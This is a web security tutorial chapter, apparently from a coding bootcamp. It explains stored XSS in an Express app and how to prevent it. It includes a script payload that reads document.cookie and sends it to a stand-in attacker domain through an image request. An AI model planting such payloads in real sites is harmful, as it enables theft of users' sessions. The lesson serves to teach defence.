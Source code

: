 # 9.2.1: XSS

## XSS

XSS stands for Cross-Site Scripting. This is a vulnerability where a malicious attacker is allowed to save a snippet of JavaScript in the system that will be displayed later.

When that snippet is run on other site visitors browsers, the attacker can run a number of different kinds of insecure programs.

Here is how we would implement an XSS attack:

#### XSS Part 1 - Saving unsanitized user input

The first part of an XSS attack is the ability of an attacker to save JavaScript into the database.

```javascript
<script>alert('hey!')</script>
```

If we paste this HTML snippet directly into the form input it will be saved to the database.

![](../../.gitbook/assets/xss-form.png)

#### XSS Part 2 - Displaying unsanitized user input

Once this "cat" record has been saved to the database, any user who navigates to a page displaying this "cat" will run the JavaScript snippet above.

![](../../.gitbook/assets/xss-alert.png)

#### XSS Part 3 - Capturing and sending user session cookies

Now that we have the ability to run arbitrary JavaScript for every user who visits the site, we can do malicious things. One of the worst might be to steal the session cookie of any logged in user.

In order to do that we need to save a particular kind of JavaScript, one that gets a hold of the user's cookie and sends it to a server we control.

Commented Version:

```javascript
<script>
  var allCookies = document.cookie; // don't do an AJAX request in case there
  are CORS issues // create an image tag var imgEl =
  document.createElement('img'); // settting the img src causes the browser to
  try and request from this domain imgEl.src =
  'http://my-bad-domain.com?'+allCookies;
</script>
```

Compact Version:

```javascript
<script>
  var allCookies = document.cookie;var imgEl =
  document.createElement('img');imgEl.src =
  'http://my-bad-domain.com?'+allCookies;
</script>
```

Open the network tab and notice how all the cookie information is being sent to the malicious server.

![](../../.gitbook/assets/xss-cookie.png)

### XSS Solutions

In the example app this XSS attack was facilitated by 2 parts of the code:

**1. No validation of the user's inputs.**

Ideally the app would never allow a user to enter any text into the cat name field that resembles code.

An easy implementation to guard against this is to use one of many common NPM libraries made for this purpose. [xss](https://www.npmjs.com/package/xss) is one of the most popular.

Note that string sanitization so that it is guaranteed not to contain JavaScript is a very hard problem to solve. See this example here: [https://dev.to/catmcgeecode/code-anything-in-javascript-with-only-8-characters-5ghp](https://dev.to/catmcgeecode/code-anything-in-javascript-with-only-8-characters-5ghp)

**2. No sanitization of the display of the database values.**

In this special express app we are not running EJS. When we print out the values from the database our code will directly generate HTML tags that will be interpreted by the browser.

See the code here: [https://github.com/rocketacademy/express-security-bootcamp/blob/main/index.js\#L320](https://github.com/rocketacademy/express-security-bootcamp/blob/main/index.js#L320)

If we had used EJS, the code's characters would be displayed on the screen, instead of being interpreted by the browser. This is called HTML character escape. Most modern view / HTML generation libraries will provide this functionality built-in. However, character escape does not always keep the app safe from XSS. The other measures already mentioned should still be implemented.
